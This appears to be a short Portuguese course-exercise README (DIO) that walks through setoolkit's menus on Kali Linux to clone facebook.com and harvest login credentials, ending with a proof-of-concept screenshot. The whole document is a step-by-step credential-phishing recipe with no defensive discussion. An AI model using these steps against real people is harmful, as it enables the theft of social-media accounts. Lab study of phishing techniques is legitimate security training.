> Vitor Araujo - DIO


# Phishing para captura de credenciais do Facebook


## Ferramentas Utilizadas

- Kali Linux (OS)
- setoolkit


## Configurando o Phishing no Kali Linux

1. Deve-se estar logado como root.
	- comando: ``` sudo su ```

2. Iniciar a ferramenta setoolkit.
	- comando: ``` setoolkit ```

3. Concordar com os termos de servico da ferramenta (caso seja a primeira vez utilizando a ferramenta).
	- comando: ``` y ```

4. Tipo de ataque: Social-Engineering Attacks.
	- comando: ``` 1 ```

5. Vetor de ataque: Web Site Attack Vectors.
	- comando: ``` 2 ```

6. Método de ataque: Credential Harvester Attack Method.
	- comando: ``` 3 ```

7. Mecanismo de ataque: Site Cloner
	- comando: ``` 2 ```

8. Precisamos inserir o IP da nossa maquina. Geralmente o setoolkit detecta de forma automatica. Caso contrario, abra um novo teminal para identificar seu IP.
	- comando: ``` ip a s ```

9. URL para clone: http://www.facebook.com


## POC (Resultado)

![Alt text](./poc.png "Optional title")

